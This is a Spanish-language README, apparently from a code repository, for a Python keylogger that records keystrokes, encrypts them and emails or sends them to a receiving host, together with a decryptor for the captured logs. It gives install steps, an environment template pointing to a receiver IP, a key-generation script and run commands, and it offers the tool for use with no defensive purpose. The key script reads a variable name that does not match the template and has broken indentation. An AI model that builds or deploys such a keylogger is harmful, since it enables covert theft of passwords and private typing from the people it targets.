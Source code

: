   <h1>Keylogger y Decryptor</h1>

  <p>Este proyecto incluye un keylogger que captura teclas, cifra los datos y los envía por correo electrónico, así
      como un script para descifrar los archivos generados.</p>

  <h2>Requisitos</h2>

  <ul>
      <li>Python 3.10.11</li>
      <li>Bibliotecas: <code>cryptography</code>, <code>pynput</code>, <code>python-dotenv</code></li>
  </ul>

  <p>Puedes instalar las bibliotecas necesarias usando el comando pip install -r .\requirements.txt</p>

  <pre><code>pip install cryptography pynput python-dotenv</code></pre>

  <h2>Configuración</h2>

  <h3>Variables de Entorno</h3>

  <p>Crea un archivo <code>.env</code> en el directorio del proyecto con las siguientes variables:</p>

<pre>
  <code>
    pf=ruta/al/archivo/secret.key
    sv="http://tu-ip-receptora/"
  </code>
</pre>

<h3>Generar Clave de Cifrado</h3>

<p>Ejecuta el siguiente script para generar una clave de cifrado y guardarla en un archivo:</p>

<pre>
  <code>
    import os
    from cryptography.fernet import Fernet
    from dotenv import load_dotenv

    load_dotenv()

    # Generar y guardar una clave
    key = Fernet.generate_key()
    with open(os.environ.get("passfile"), 'wb') as key_file:
    key_file.write(key)

    print("Clave de cifrado generada y guardada exitosamente.")
  </code>
</pre>

  <h2>Uso</h2>

  <h3>Keylogger</h3>

  <p>Para ejecutar el keylogger, usa el siguiente comando:</p>

  <pre><code>python app.py --interval &lt;intervalo_en_segundos&gt; --recipient &lt;correo_destinatario&gt;</code></pre>

  <p>Ejemplo:</p>

  <pre><code>python app.py --interval 60 --recipient destinatario@ejemplo.com</code></pre>

  <p>Esto configurará el keylogger para enviar los correos cada 60 segundos a la dirección de correo especificada.</p>

  <h3>Decryptor</h3>

  <p>Para descifrar un archivo de texto cifrado, usa el siguiente comando:</p>

  <pre><code>python decryptor.py &lt;ruta_al_archivo.txt&gt;</code></pre>

  <p>Ejemplo:</p>

  <pre><code>python decryptor.py log.txt</code></pre>

  <p>Esto permitirá descifrar el contenido del archivo <code>log.txt</code>.</p>

  <h2>Notas</h2>

  <ul>
      <li>Asegúrate de que las variables de entorno están correctamente configuradas antes de ejecutar los scripts.
      </li>
      <li>Los archivos generados por el keylogger serán enviados como adjuntos cifrados y el Decryptor puede usarse
          para descifrarlos.</li>
      <li>Los archivos <code>.key</code> deben ser añadidos a tu <code>.gitignore</code> para evitar que sean subidos
          al repositorio.</li>
  </ul>

</body>

</html>

